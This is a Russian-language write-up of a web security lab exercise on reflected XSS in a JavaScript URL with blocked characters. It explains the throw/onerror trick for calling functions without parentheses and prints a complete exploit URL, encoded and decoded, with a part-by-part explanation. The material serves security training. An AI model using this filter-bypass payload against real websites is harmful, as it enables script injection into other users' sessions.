 # Reflected XSS in a JavaScript URL with some characters blocked

## Theory

<h3>Выход из строки JavaScript</h3>

Некоторые веб-сайты усложняют XSS, ограничивая символы, которые вам разрешено использовать. Это может быть на уровне веб-сайта или путем развертывания WAF, который предотвращает попадание ваших запросов на веб-сайт. В этих ситуациях вам нужно поэкспериментировать с другими способами вызова функций, которые обходят эти меры безопасности. Один из способов сделать это — использовать оператор throw с обработчиком исключений. Это позволяет передавать аргументы функции без использования круглых скобок. Следующий код назначает функцию alert() глобальному обработчику исключений, а инструкция throw передает 1 обработчику исключений (в данном случае alert). Конечным результатом является то, что функция alert() вызывается с 1 в качестве аргумента.
```
onerror=alert;throw 1
```

## Writeup

Главная страница:

![](./assets/1.png)

Мы будем использовать следующий экплоит для решения задания:
```
https://0a8f0052048cd6c1c072161f00e2000b.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

Код экплоита без URL кодировки:
```
https://0a8f0052048cd6c1c072161f00e2000b.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

**&** - добавляет новый параметр, чтобы оставить параметр postId нетронутым

**'}** - используется для того, чтобы выйти из body:'/post?postId=1'}

**\,x=x=>{throw\/\**/onerror=alert,1337},toString=x,window+'',** - перезаписывает метод toString и запускает его.

**{x:'** - используется, чтобы не нарушать JavaScript.

Получаем ответ от сервера.

![](./assets/2.png)
